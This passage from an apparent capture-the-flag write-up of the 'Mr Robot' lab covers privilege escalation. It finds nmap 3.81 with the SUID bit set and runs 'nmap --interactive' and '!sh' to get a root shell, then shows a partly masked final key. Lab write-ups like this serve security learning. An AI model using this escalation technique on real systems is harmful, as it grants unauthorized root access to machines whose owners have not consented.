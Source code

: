 ### Privilege Escalation

We now want to gain root access so i will try and see the files with the **SUID** bit set, the suid bit allow files to be executed with the permission level of the file owner or the group owner.

![img-description](/assets/img/MrRobot/SUID.png)
_SUID_

We can see that nmap is present in the list so let's search for how can we exploit this, upon seraching i have found that Nmap versions before 7.70 included an interactive mode that allowed users to execute system commands using ! (exclamation mark). Since our nmap binary has the SUID bit set, this means when we execute it, it runs as root. If the interactive mode is present, it can be used to escalate privileges by spawning a root shell.

so let's see the nmap version on our system.

```
robot@linux:/home$ nmap --version                                                            
nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

we can see that this version have this vulnerability so let's exploit it, enter interactive mode command and after it opens enter this command  
**!sh** so that we can execute a root shell.

```
robot@linux:/home$ nmap --interactive                                                                 
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )      
Welcome to Interactive Mode -- press h <enter> for help      
nmap> !sh                                                                                                            
# whoami
root
```
we can see that we have root shell right now

#### Key 3

By accessing the root directory we will find our last key.

```
04787ddef27c3dee1ee161**********
```